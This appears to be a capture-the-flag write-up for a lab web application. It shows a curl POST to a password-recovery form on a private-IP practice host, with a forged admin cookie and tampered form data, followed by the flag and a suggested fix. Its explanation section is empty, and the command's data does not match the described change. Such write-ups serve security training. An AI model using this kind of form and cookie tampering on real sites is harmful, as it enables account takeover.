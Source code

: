 # Form data manipulation 2

### Breach description

Change the value of the input “name” of the recover password form with the value root  (replace webaster@…)

```bash
curl 'http://192.168.64.6/?page=recover#' --compressed -X POST -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/117.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://192.168.64.6' -H 'Connection: keep-alive' -H 'Referer: http://192.168.64.6/?page=recover' -H 'Cookie: I_am_admin=68934a3e9455fa72420237eb05902327' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'mail=test&Submit=Submit'
```

**The flag is : 1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0**

### Explanation of the breach

### Breach Fix

Recover password using another method such as sending a recovery link to a provided email address from the user and checking if the address is a known address before sending a recovery email.

